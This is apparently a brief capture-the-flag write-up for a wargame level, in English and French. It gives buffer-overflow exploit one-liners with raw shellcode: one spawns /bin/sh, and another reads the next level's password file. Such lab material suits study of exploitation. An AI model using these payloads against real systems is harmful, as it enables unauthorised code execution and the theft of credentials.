 ### step 1: Decompile with Ghidra

We get the c source code of the program  

### step 2: Code analysis

important !!
On passe gdb en mode follow-child avec la commande set follow-fork-mode child

segfault au 156ème char

( python -c 'print("A" * 156 + "\xae\xde\xff\xff")' ; cat ) | env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level04
=> fonctionne pas car passage au processus parent. Même si un shell est lanc on n'y accède pas car le fork nous entraine sur le processsus parent

D'habitude on utilise le shellcode pour lancer un bash,

La on utilise un shellcode pour cat un fichier 
DB de shell codes : https://shell-storm.org/shellcode/index.html

le shellcode : https://shell-storm.org/shellcode/files/shellcode-73.html


( python -c 'print("A" * 156 + "\xae\xde\xff\xff")' ) | env -i SHELLCODE=$(python -c 'print("\x90" * 512 +  "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass")') ./level04



